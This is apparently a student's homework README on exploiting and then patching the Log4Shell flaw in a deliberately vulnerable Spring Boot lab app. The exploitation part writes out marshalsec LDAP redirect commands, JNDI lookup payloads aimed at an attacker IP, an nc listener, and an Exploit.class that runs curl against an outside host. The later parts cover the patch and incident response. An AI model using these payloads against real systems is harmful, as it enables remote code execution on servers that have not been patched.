 # Week9: Log4Shell Vulnerability Homework

Introduction: This project demonstrates the exploitation and mitigation of the Log4Shell vulnerability (CVE-2021-44228) using a vulnerable Java Spring Boot application deployed via Docker Compose. The objectives of this homework are:

- Simulate a real-world Log4Shell exploit scenario
- Apply MITRE ATT&CK, DEFEND, and REACT frameworks
- Harden and redeploy the application using secure coding practices

---

## Prerequisites
- Docker & Docker Compose
- Java + Maven (if building manually)
- Python 3 (for attacker LDAP simulation)
Also, Ports 8000, 8080, 1389 and 389 are open in your EC2 Security Group (for the app and LDAP server).

---

## Part 1: Exploitation (MITRE ATT&CK)
After launching the ldap app "python3 ldap_server.py"  i received this error: ldap3.core.exceptions.LDAPSocketOpenError: socket connection error while opening: [Errno 111] Connection refused; after researching this error, i came to the point of using marshalsec, which is a malicious LDAP redirect server, not a real LDAP directory; i cloned it (git clone https://github.com/mbechler/marshalsec.git) then built it. I then ran manually these commands 
# HTTP server (for payload)
cd exploit/
python3 -m http.server 8000

# LDAP redirect server
java -cp marshalsec-*.jar marshalsec.jndi.LDAPRefServer http://<your-ip>:8000/#Exploit
To exploit the Log4Shell vulnerability, a vulnerable Spring Boot app using Log4j was set up to log user input. A malicious LDAP server was launched using marshalsec to redirect requests to an HTTP server hosting a malicious Exploit.class. The exploit payload ${jndi:ldap://<attacker-ip>:1389/Exploit} was sent via a POST request to the app’s /log endpoint. When the app logged this input, it triggered the JNDI lookup, causing the app to connect to the LDAP server. This demonstrated remote code loading behavior, confirming the Log4Shell vulnerability's exploitation path from input to remote callback.

Proof of vulnerability exploitation:
![image](https://github.com/user-attachments/assets/892533b0-5fb8-49f6-9acd-80159a2bc812)
nc -lvnp 9999 listener received a connection from the target app's IP (Connection received on 164.52.0.91 51287); The incoming payload shows garbled data and headers (xterm-256color, hostname, etc.), indicating that the curl http://44.208.30.186:9999/ executed successfully inside the vulnerable app. 

To summarize What Just Happened
- the vulnerable Spring Boot app logged: {"input": "${jndi:ldap://44.208.30.186:1389/Exploit}"}
- That triggered a request to your rogue LDAP server (marshalsec).
- The LDAP server instructed the app to load a malicious .class file from your HTTP server.
- The malicious .class file contained: Runtime.getRuntime().exec("curl http://<attacker>:9999/");
- The target executed that, reaching your port 9999, confirming Remote Code Execution (RCE).

the file start_exploit.sh available in the exploit folder automates all this process.

## Part 2: Defense (MITRE DEFEND)
- Log4j upgraded to 2.17.0.
- Input validation implemented to block JNDI patterns.

To do this, we need to:
- Replace vulnerable LogController.java with patched/LogController.java.
- Upgrade log4j version to 2.17.0 in pom.xml.
- 
before: ![image](https://github.com/user-attachments/assets/70fa2a88-26a0-4531-af5c-fcfacad41415)

after: ![image](https://github.com/user-attachments/assets/cc7b0dfe-1943-4a31-a93d-7d90533207ea) 

- Rebuild and restart:

## Part 3: Response (MITRE REACT)
- Detect: Logs examined for exploit traces
- Contain: Vulnerable container stopped
- Eradicate: Patched container deployed
- Recover: System restored with mitigation verified

---

## Conclusion and Lessons Learned

- Logging libraries must be treated as part of the attack surface.
- Validate all input even when passed to internal services.
- MITRE frameworks provide a clear guide for security lifecycle management.

---

## References

- [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [MITRE DEFEND](https://defend.mitre.org/)
- [MITRE REACT](https://www.mitre.org/publications/technical-papers/react-a-framework-for-incidence-response)

